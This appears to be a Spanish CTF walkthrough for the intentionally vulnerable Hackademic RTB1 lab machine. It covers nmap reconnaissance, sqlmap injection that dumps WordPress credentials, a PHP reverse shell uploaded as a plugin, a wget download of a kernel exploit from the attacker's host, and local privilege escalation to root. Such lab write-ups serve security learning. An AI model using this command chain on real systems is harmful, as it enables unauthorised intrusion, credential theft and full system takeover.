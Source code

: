<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F7F400&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

Usuario de WordPress: `GeorgeMiller`

Contraseña: `q1w2e3`

Acceder al panel de login de WordPress:
```
http://192.168.1.5/Hackademic_RTB1/wp-login.php
```
![7](https://user-images.githubusercontent.com/75953873/171924583-6a77c97a-d61c-4d81-a199-39077d868d4b.png)

- *Paso 5:* Subir código PHP y obtener una reverse shell. 

**->** Manage **->** Files

![8](https://user-images.githubusercontent.com/75953873/171925393-d911ddcf-cf5a-4670-8143-4026d0c70424.png)

Copiar código PHP de la siguiente ruta:
```
cat /usr/share/webshells/php/php-reverse-shell.php
```
![9](https://user-images.githubusercontent.com/75953873/171925910-7d2cc0de-93a1-4bc8-aeaf-dad026c76a9c.png)

Pegan el código en hello.php y cambian la línea de `$ip` por su IP local, luego guardan los cambios "Update File":

![10](https://user-images.githubusercontent.com/75953873/171926310-94b22d02-b809-4029-a72f-d90b1634fe8d.png)

Abren una nueva terminal y ejecutan Netcat para que escuche las conexiones por el puerto 1234. 
```
nc -lvp 1234
```

Posteriormente recargan la siguiente URL:
```
http://192.168.1.5/Hackademic_RTB1/wp-content/plugins/hello.php
```
![11](https://user-images.githubusercontent.com/75953873/171927713-64734806-0fc2-41d6-8b17-aff9e45f4b35.png)

- *Paso 6:* Identificar versión del Kernel y escalar privilegios. 

![12](https://user-images.githubusercontent.com/75953873/171928596-5a971c00-0c42-4d48-bf3c-93a776150472.png)

Localizar el exploit con searchsploit:
```
searchsploit Linux Kernel 2.6.3 RDS Local Privilege Escalation
```
![13](https://user-images.githubusercontent.com/75953873/171930886-0c5950e1-7c71-4a88-9aec-0b2fd90a1fa4.png)

Descargar el exploit:
```
searchsploit -m 15285
```
![14](https://user-images.githubusercontent.com/75953873/171931554-8fde81f6-88fd-4281-8597-ebeb5fd57124.png)

Ejecutamos un servidor HTTP local simple con Python:
```
python3 -m http.server 80
```
![16](https://user-images.githubusercontent.com/75953873/171932402-4c30740c-4e87-4d2e-99be-b09d54c089c1.png)

Dentro de la reverse shell generada, nos movemos al directorio `/tmp` y descargamos el exploit de nuestro servidor:
```
cd /tmp
wget http://192.168.1.9/15285.c
```
![15](https://user-images.githubusercontent.com/75953873/171932443-98620783-0a4f-4007-b69e-fe03b8ce7612.png)

Seguidamente compilamos el código y le damos permisos de lectura, escritura y ejecución:
```
gcc 15285.c -o kernel
chmod 777 kernel
```
![17](https://user-images.githubusercontent.com/75953873/171933850-a08f1cb8-f9fa-4762-96f9-cc2af26619a2.png)

Por último, ejecutan el comando de `./kernel` y comenzará a explotar la vulnerabilidad:

![18](https://user-images.githubusercontent.com/75953873/171934716-5bbc8019-cb0f-4e4c-8307-07a5ab76f146.png)

Y es así como finalmente obtendremos permisos de administrador (root) en la máquina víctima:

![19](https://user-images.githubusercontent.com/75953873/171935035-085279d1-fca1-47ab-9f2d-3e60e2830b04.png)
